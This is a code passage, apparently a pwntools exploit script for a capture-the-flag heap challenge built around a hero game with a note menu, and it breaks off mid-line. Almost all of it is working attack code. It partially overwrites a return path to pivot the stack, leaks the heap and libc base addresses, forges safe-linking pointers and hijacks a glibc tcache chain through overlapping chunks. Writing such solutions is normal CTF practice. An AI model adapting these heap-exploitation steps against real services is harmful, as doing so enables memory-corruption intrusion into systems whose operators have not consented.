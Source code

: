 ```python
    def game_attack(): t.sendlineafter(b'=== Hero', b'2')
    def game_hp(): t.sendlineafter(b'=== Hero', b'3')
    def game_note(): t.sendlineafter(b'=== Hero', b'5')
    def game_exit(): t.sendlineafter(b'=== Hero', b'6')

    def note_write(idx: int, size: int, mem: bytes):
        t.sendlineafter(b'During your grueling', b'1')
        t.sendafter(b'index', str(idx).encode())
        t.sendafter(b'size', str(size).encode())
        t.sendafter(b'content', mem)

    def note_destroy(idx: int):
        t.sendlineafter(b'During your grueling', b'2')
        t.sendafter(b'index', str(idx).encode())

    def note_view(idx: int) -> bytes:
        t.sendlineafter(b'During your grueling', b'3')
        t.sendafter(b'index', str(idx).encode())
        t.recvuntil(b' ---\n')
        return t.recvuntil(b'\n-----------', True)

    def note_exit(): t.sendlineafter(b'During your grueling', b'4')

    # bufs[0]  <=> tcache(0x2e0)
    # bufs[15] <=> tcache(0x3d0)
    game_note()
    note_write(0, 7, b'pivot!')
    note_exit()
    # truncate   mov DWORD PTR [rbp-0x14],0x1f0f5d   @ 0x1867
    # to         pop rbp; nop DWORD PTR [rax]        @ 0x186a
    game_arbwrite(p8(0x6a))
    # now rbp == chunk 0
    game_note()

    def PTR_PROTECT(pos: int, ptr: int) -> int: return (pos >> 12) ^ ptr
    note_write(1, 0x2d7, b'shall not to conflict with 0x2e0 chunk')
    note_destroy(1) # now the freed chunk is put in bufs[0]
    heap_base = u64(note_view(0) + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heap_base: {heap_base:#x}'))

    note_write(2, 0x3e7, b'this will fall into [Combat Power]')
    note_write(3, 0x507, p64(PTR_PROTECT(heap_base + 0x980, 0)))
    note_write(4, 7, b'work as guard')
    note_destroy(2) # put chunk 2 in tcache entry
    note_exit()
    # add tcache entry by 0x3f0 (now pointing at chunk 3)
    for _ in range(3):
        game_hp()
    for _ in range(15):
        game_attack()

    game_note()
    note_write(5, 0x3e7, b'take the corrupted chunk 3 back to overlap')
    # now chunk 5 (0x3f0) == chunk 3 (0x510)
    note_destroy(3)
    libc_base = u64(note_view(5) + b'\0\0') - 96 - 0x203ac0 # main_arena
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    note_write(6, 0x3e7, b'padding chunk to construct a chain')
    # NOTE: to bypass malloc_usable_size, the fake chunk should have size 0
    # link tcache to chunk 0
    note_write(7, 0x3e7, b'hijacking tcache chain...'.ljust(0x30, b'\0') + \
```